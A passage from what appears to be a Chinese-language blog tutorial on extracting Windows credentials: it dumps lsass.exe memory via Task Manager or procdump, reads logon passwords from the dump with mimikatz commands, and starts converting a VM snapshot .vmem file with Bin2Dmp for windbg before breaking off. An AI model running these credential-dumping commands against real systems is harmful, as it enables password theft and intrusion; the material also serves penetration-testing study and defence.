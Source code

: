 

**方法一**：在任务管理栏中找到lsass.exe进程，右键 Create [Dump](https://so.csdn.net/so/search?q=Dump&spm=1001.2101.3001.7020) File(创建转储文件)，如果，将导出lsass.DMP文件



![](https://img-blog.csdnimg.cn/20200205150919891.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**方法二**：使用Procdump导出lsass.dmp文件



```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```




![](https://img-blog.csdnimg.cn/20200205151318229.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**然后使用mimikatz读取lsass.dmp文件**



```
sekurlsa::minidump lsass.dmp      
sekurlsa::logonpasswords full
```




![](https://img-blog.csdnimg.cn/20200205151640580.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 从快照内存中读取密码



我们都知道虚拟机有拍摄快照的功能。拍摄快照的瞬间虚拟机就会把你当前的内存保存为一个文件，文件以 .vmem 结尾，该文件的大小就是你虚拟机的内存大小。我们现在要从快照内存中读取出密码。



首先，利用 Bin2Dmp将该内存文件转成dmp文件，



```
Bin2Dmp.exe "Windows 7 x64-381e3888.vmem" windows7.dmp
```




![](https://img-blog.csdnimg.cn/20181129181435565.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



然后我们在 windbg 中载入该文件 



![](https://img-blog.csdnimg.cn/20181129183533671.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)
